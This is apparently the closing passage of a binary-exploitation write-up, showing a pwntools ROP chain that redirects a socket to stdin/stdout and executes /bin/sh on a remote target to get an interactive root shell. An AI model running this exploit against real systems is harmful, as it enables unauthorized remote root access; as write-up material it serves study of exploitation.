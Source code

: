 ```python
rop2.dup2(4, 0)
rop2.dup2(4, 1)

# Check the offset of the system call
rop2.execve(next(efi2.search(b"/bin/sh\x00")), 0, 0)

# Enstablish the last connection
con = remote(host, port)
rop(can, rbp, ropp=rop2)
# Make it interactive because we returned to /bin/sh as root!
con.interactive()
```

To get more info about the library, refer to [the documentation](https://pwntools.readthedocs.io/en/stable/globals.html). And profit, but damn, it was Intense...
